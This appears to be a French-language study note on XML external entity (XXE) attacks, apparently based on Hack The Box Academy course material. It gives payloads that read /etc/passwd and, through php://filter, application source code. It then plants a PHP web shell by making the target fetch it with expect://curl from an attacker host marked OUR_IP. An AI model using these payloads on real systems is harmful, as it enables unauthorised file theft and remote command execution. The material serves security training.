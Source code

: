 ***

### <mark style="color:blue;">Reading Sensitive Files</mark>

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![external\_entity](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_external_entity.jpg)

***

### <mark style="color:blue;">Reading Source Code</mark>

![file\_php](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_file_php.jpg)

Les fichiers non-XML ou binaires échouent comme entités externes. Avec PHP, on peut utiliser **`php://filter`** pour **encoder en base64** et éviter les problèmes de format XML.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![file\_php](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg)

***

### <mark style="color:blue;">Remote Code Execution with XXE</mark>

En plus de lire des fichiers locaux, XXE peut permettre **l’exécution de code**. Méthodes : utiliser des clés SSH, voler des hashes, ou `php://expect` sur PHP. Le plus fiable : **injecter un web shell** depuis notre serveur pour exécuter des commandes à distance.

```shell-session
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
